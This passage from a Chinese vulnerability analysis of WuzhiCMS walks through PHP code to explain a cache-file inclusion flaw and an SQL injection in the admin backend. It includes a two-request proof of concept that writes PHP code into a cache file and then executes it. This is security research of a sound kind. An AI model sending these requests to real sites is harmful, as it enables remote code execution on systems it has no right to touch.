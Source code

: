 `set_cache()`是写入缓存，那么相对应的就是`get_cache()`方法来获取缓存，查找该文件中是否存在`get_cache()`方法的调用，查找到两处（1）`__construct()`魔术方法 (2) `ueditor()`方法。`ueditor()`方法如下
```php
public function ueditor()
{
    if (isset($GLOBALS['submit'])) {
        $cache_in_db = cache_in_db($GLOBALS['setting'], V, M);
        set_cache(V, $GLOBALS['setting']);
        MSG(L('operation_success'), HTTP_REFERER, 3000);
    }
    else {
        $setting = get_cache(V); // 进入else需要submit为空，即不传入submit参数，调用get_cache方法，如下
        if(empty($setting)) $setting = cache_in_db('', V, M);
             include $this->template(V, M);
        }
    }
}

function get_cache($filename, $dir = '_cache_'){
	$file = get_cache_path($filename, $dir);
	if (!file_exists($file)) return '';
	$data = include $file; // 文件包含
	return $data;
}
```
那么这个漏洞的利用分为两步，（1）将恶意内容写入缓存文件（位于`/cache/_cache_/attachment.xxx.php`） （2）读取缓存文件的内容，POC如下
```
# 1 写入一句话木马到缓存文件
GET /wuzhicms/index.php?m=attachment&f=index&v=set&_su=wuzhicms&submit=1&setting=<%3fphp+phpinfo()%3b%3f>
# 2 读取缓存文件
GET /wuzhicms/index.php?m=attachment&f=index&v=ueditor&_su=wuzhicms
```

### sql注入漏洞
wuzhicms后台中有不少sql注入漏洞，其核心问题都在于`$where`变量没有做参数化/过滤，直接拼接到了sql语句中。其他的sql语句传入一般都用`intval()`限制了数据类型，或用`array('groupid' => $pid)`做了参数化处理

以其中一个sql漏洞为例做分析，其他大同小异。漏洞定位：`coreframe/app/core/admin/copyfrom.php`

```php
public function listing() {
  $siteid = get_cookie('siteid');
  $page = isset($GLOBALS['page']) ? intval($GLOBALS['page']) : 1; // 获取page值，没有的话就为1
  $page = max($page,1);
  if(isset($GLOBALS['keywords'])) { // 如果设置了keywords就用该关键字过滤数据
    $keywords = $GLOBALS['keywords'];
    $where = "`name` LIKE '%$keywords%'";
  } else {
    $where = '';
  }
  $result = $this->db->get_list('copyfrom', $where, '*', 0, 20,$page); // 从copyfrom表中获取数据
  $pages = $this->db->pages;
  $total = $this->db->number;
  include $this->template('copyfrom_listing');
}
```
`get_list()`方法首先用`$where = $this->array2sql($where);`将数组转换为sql形式，在这个过程中（1）如果传入的$where是数组，则将`%20 %27 ( ) '`这些字符转换成空；（2）如果传入的$where不是数组，则只将`%20 %27`替换为空

